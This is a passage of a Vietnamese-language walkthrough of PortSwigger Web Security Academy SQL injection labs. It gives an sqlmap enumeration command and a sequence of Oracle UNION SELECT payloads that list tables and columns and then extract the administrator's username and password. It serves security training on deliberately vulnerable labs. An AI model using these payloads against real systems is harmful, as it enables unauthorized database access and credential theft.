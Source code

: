 ![ảnh](https://hackmd.io/_uploads/B1KnJjr3T.png)

```sql!
sqlmap -u https://0a46002c040595ed808f8a72003400c3.web-security-academy.net/filter?category=Accessories  --batch -D information_schema --tables
```

![ảnh](https://hackmd.io/_uploads/r15xxirn6.png)

- và mình có thể xem cũng như lưu dữ liệu từ các database này

## 9. Lab: SQL injection attack, listing the database contents on Oracle

link: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle

### Đề bài

![image](https://hackmd.io/_uploads/ByvhHT25a.png)

### Phân tích

- Bài lab này tương tự bài trên, chỉ khác là tấn công SQLi đối với Oracle database.

### Khai thác

- Tương tự, ta cũng xác định được số cột trả về của câu query là 2. Kiểm tra cách hiển thị bằng payload trên hình: `/filter?category=' UNION SELECT NULL, NULL FROM dual--`

![image](https://hackmd.io/_uploads/H13i8p39p.png)

Như vậy câu lệnh truy vấn trả về 2 cột dữ liệu. Tìm kiểm cột dữ liệu tương thích với kiểu chuỗi, payload: `/filter?category=' UNION SELECT 'column1', 'column2' FROM dual--`

![image](https://hackmd.io/_uploads/HkQ-vTh9a.png)

Cả hai cột đều có thể sử dụng để hiển thị thông tin khai thác. Truy xuất tên các bảng, payload: `/filter?category=' UNION SELECT table_name, NULL FROM all_tables--`

![image](https://hackmd.io/_uploads/BJgtOwp35a.png)

Quan sát nhận thấy table **USERS_FBNLSL** có thể chứa thông tin tài khoản người dùng:

![image](https://hackmd.io/_uploads/SJV9PTn9T.png)

Truy xuất tên các cột trong bảng **USERS_FBNLSL**, payload: `/filter?category=' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_FBNLSL'--`

![image](https://hackmd.io/_uploads/HJ0HuT39T.png)

Truy xuất thông tin tài khoản administrator, payload: `/filter?category=' UNION SELECT USERNAME_TDOVKQ || ':' || PASSWORD_UUQWNQ, NULL FROM USERS_FBNLSL--`
